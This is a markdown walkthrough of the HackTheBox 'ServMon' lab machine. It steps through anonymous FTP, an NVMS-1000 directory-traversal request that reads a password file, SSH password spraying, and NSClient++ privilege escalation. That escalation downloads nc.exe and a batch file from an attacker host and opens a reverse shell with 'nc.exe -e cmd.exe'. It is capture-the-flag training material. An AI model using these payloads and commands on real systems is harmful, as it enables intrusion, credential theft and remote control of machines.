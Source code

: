 ```yaml
---
title: "HackTheBox - ServMon | Walkthrough"
date: 2020-06-20
categories: [hackthebox]
tags: [hackthebox, windows, ftp]
---
```


As always, let's start with an nmap scan:

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.184 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -A -p$ports 10.10.10.184 -o nmap
````

We see quite a few ports open. Let's check FTP first, as anonymous login is enabled.

```bash
ftp 10.10.10.184 # login as anonymous
ftp> ls
01-18-20  12:05PM       <DIR>          Users
ftp> ls Users
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
ftp> ls Users/Nadine
01-18-20  12:08PM                  174 Confidential.txt
ftp> ls Users/Nathan
01-18-20  12:10PM                  186 Notes to do.txt
```

So, we have a few interesting files. Let's get them.

```bash
ftp> cd Users/Nadine/
ftp> get Confidential.txt
ftp> cd ../Nathan/
ftp> get Notes\ to\ do.txt
```

Check if we have write permissions:

```bash
ftp> mkdir test
550 Access is denied.
```

No write access. Let's read the files.

```bash
cat Confidential.txt
```

```
Nathan,

I left your Passwords.txt file on your Desktop. Please remove this once you have edited it yourself and place it back into the secure folder.

Regards
Nadine
```

So there’s a `Passwords.txt` in Nathan’s Desktop.

```bash
cat Notes\ to\ do.txt
```

```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

Okay, let’s check the website.

```bash
curl http://10.10.10.184/
```

We see a redirect to `Pages/login.htm`. Opening in Firefox, the page title is **NVMS-1000**. Let's check for exploits.

```bash
searchsploit NVMS
```

We find a directory traversal exploit. Let's test it in Burp.

```http
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 10.10.10.184
```

Response:

```
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Great, now let’s try Nathan’s desktop.

```http
GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184
```

Response:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Save them:

```bash
vi pass.txt
```

User list:

```bash
vi users.txt
```

```
Nadine
Nathan
Administrator
```

Now spray credentials with Metasploit:

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set rhosts 10.10.10.184
set user_file users.txt
set pass_file pass.txt
run
```

Success:

```
[+] 10.10.10.184:22 - Success: 'Nadine:L1k3B1gBut7s@W0rk'
```

SSH in:

```bash
ssh Nadine@10.10.10.184
```

And we get a Windows shell!

```
Microsoft Windows [Version 10.0.18363.752]
nadine@SERVMON C:\Users\Nadine>
```

---

### Privilege Escalation

From Nathan’s notes, NSClient is installed. Let's check for exploits.

```bash
searchsploit nsclient
```

Yes, we find a privilege escalation exploit.

Check `nsclient.ini`:

```powershell
cd "C:\Program Files\NSClient++"
type .\nsclient.ini
```

We see:

```
password = ew2x6SsGTxjRwXOT
allowed hosts = 127.0.0.1
```

Perfect. Now prepare a reverse shell.

```powershell
cd C:\Temp\
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.80:80/nc.exe','C:\Temp\nc.exe')"
```

Create a batch file:

```bash
vi evil.bat
```

```bat
@echo off
C:\Temp\nc.exe 10.10.14.78 4444 -e cmd.exe
```

Download it:

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.80:80/evil.bat','C:\Temp\abhizer.bat')"
```

Forward the NSClient port:

```bash
ssh Nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

Upload the script:

```bash
curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/abhizer.bat --data-binary @evil.bat
```

Start a listener:

```bash
nc -nvlp 4444
```

Execute the script:

```bash
curl -s -k -u admin:ew2x6SsGTxjRwXOT "https://127.0.0.1:8443/api/v1/queries/abhizer/commands/execute?time=1s"
```

Boom! You should have a reverse shell as **Administrator**.

**Rooted!**

